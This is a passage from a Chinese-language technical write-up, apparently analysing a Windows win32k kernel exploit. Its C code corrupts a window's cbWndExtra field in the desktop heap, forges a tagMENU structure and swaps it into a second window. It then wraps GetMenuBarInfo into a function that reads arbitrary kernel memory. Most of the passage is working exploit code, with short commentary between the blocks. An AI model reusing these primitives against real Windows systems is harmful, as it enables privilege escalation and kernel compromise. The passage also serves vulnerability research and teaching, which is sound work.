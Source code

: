 223 – 287 行通过创建 / 销毁窗口，正式进行内核桌面堆布局：

```
SetWindowLong(hWnd2, g_cbWndExtra_offset, 0x0FFFFFFFF);        // 将 tagWNDk0.cbWndExtra 改为很大的值，窗口 0 的扩展内存可以越界写
// 想要使用 SetWindowLongPtr 修改 spMenu 的功能（-12），tagWNDk.dwStyle 需要带有 WS_CHILD 属性
ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
ululStyle |= 0x4000000000000000L;
SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  // 对窗口 0 调用 SetWindowLongPtr，修改 tagWNDk1.dwStyle，使其带有 WS_CHILD

// 构造一个 tagMENU，参考 3.6.2 节
g_pMyMenu = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0xA0);
*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x98) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x20);    // spMenuk
**(ULONG_PTR**)((PBYTE)g_pMyMenu + 0x98) = g_pMyMenu;    // spMenuk->pSelf
*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x200);    // unknown1
*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x8);        // rgItems
*(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) + 0x2C) = 1;    // unknown1->cItems
*(DWORD*)((PBYTE)g_pMyMenu + 0x40) = 1;        // unknown2
*(DWORD*)((PBYTE)g_pMyMenu + 0x44) = 2;        // unknown3
*(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = 0x4141414141414141;  // rgItems->unknown，用到的时候再初始化 
// 修改窗口 1 的 spMenu，同时泄露原 spMenu
ULONG_PTR pSPMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)g_pMyMenu);

// 调用 GetMenuBarInfo 时，tagWNDk.dwStyle 不能包含 WS_CHILD
ululStyle &= ~0x4000000000000000L;
SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  // 移除窗口 1 的 WS_CHILD 样式
```

至此布局完毕，桌面堆长这样：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb48sHbKLPl6JqtOKzat0lPoaBlIxRIncQ42b7LFZ25iaZXibhhCic01xU7SmgXEwc1ZcQlNxPyqdPwaQ/640?wx_fmt=png)

**4.3 任意地址读的实现及封装**

289 – 306 行使得我们具有任意地址读的能力：

```
void ReadKernelMemoryQQWORD(ULONG_PTR pAddress, ULONG_PTR &ululOutVal1, ULONG_PTR &ululOutVal2)
{
    MENUBARINFO mbi = { 0 };
    mbi.cbSize = sizeof(MENUBARINFO);

    RECT Rect = { 0 };
    GetWindowRect(g_hWnd[1], &Rect);    // 获取窗口 1 的 RECT 信息，用于计算读出的真实值

    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = pAddress - 0x40; // rgItems->unknown
    GetMenuBarInfo(g_hWnd[1], -3, 1, &mbi);    // 读取

    BYTE pbKernelValue[16] = { 0 };
    *(DWORD*)(pbKernelValue) = mbi.rcBar.left - Rect.left;        // 减去 Rect.left，创建窗口时，该值被指定为 0
    *(DWORD*)(pbKernelValue + 4) = mbi.rcBar.top - Rect.top;    // 减去 Rect.top，创建窗口时，该值被指定为 0
    *(DWORD*)(pbKernelValue + 8) = mbi.rcBar.right - mbi.rcBar.left;
    *(DWORD*)(pbKernelValue + 0xc) = mbi.rcBar.bottom - mbi.rcBar.top;

    ululOutVal1 = *(ULONG_PTR*)(pbKernelValue);            // 成功读出 pAddress 开始的 16 字节
    ululOutVal2 = *(ULONG_PTR*)(pbKernelValue + 8);
}
```
